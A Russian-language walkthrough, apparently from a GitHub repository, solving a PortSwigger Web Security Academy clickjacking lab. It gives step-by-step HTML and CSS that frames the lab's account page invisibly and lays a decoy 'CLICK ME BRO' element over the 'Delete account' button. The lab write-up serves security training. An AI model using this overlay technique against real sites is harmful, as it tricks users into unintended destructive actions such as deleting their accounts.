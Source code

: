 Логинимся под `wiener:peter`

и видим кнопку `Delete account`

Clickjacking атака состоит в том, чтобы создать подставную фронтенд составляющую, чтобы жертва кликала на видимую ей часть, а на самом деле на бэкенд шла команда о том, что кликнута совершенно другая кнопка

Иначе говоря, мы накладываем надпись `CLICK ME` на кнопку `Delete account`. Жертва жмет на `CLICK ME`, а на самом деле нажимает на `Delete account`

этим мы и займемся
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/1.png)

Переходим в `Exploit server`

Введем в поле `Body` `iframe` на который мы наложим несуществующий на оригинальном сайте элемент кнопки

```
<iframe src="https://0a4400550485c305810e525b0000005d.web-security-academy.net/my-account"></iframe>
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/2.png)
и нажмем `View Exploit`

Увидим, что он в размере окна `iframe` действительно отобразил уязвимый ресурс. Немножко не в том размере, но это поправимо

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/3.png)

Далее необходимо расширить видимую область, и добавить нашу "обманку" - иначе говоря, элемент, которого не существовало, и который будет воспринят пользователем


Дляначала расширим рабочую область, и чуточку затемним оригинальные кнопки и элементы страницы

```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
</style>

<iframe src="https://0a4400550485c305810e525b0000005d.web-security-academy.net/my-account"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/4.png)
и нажмем `View Exploit`

Увидим, что у нас вышло изменить видимость оригинальной страницы

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/5.png)

Отлично, теперь добавим кнопку `CLICK ME BRO`

и опустим ее на уровень кнопки `Delete account`, чтобы она была поверх нее
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520;
        left:45;
        z-index: 1;
    }
</style>
<div>CLICK ME BRO</div>
<iframe src="https://0a4400550485c305810e525b0000005d.web-security-academy.net/my-account"></iframe>
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/6.png)
и нажмем `View Exploit`

Увидим, что у нас вышло задуманное
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/7.png)

На следующем шаге изменим видимость элементов оригинальной страницы до 0 (ну ладно, до `0.0000000001`)
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0000000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520;
        left:45;
        z-index: 1;
    }
</style>
<div>CLICK ME BRO</div>
<iframe src="https://0a4400550485c305810e525b0000005d.web-security-academy.net/my-account"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/1.%20Basic%20clickjacking%20with%20CSRF%20token%20protection/pics%20for%20walkthrough/8.png)

Нажмем `Store` -> `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
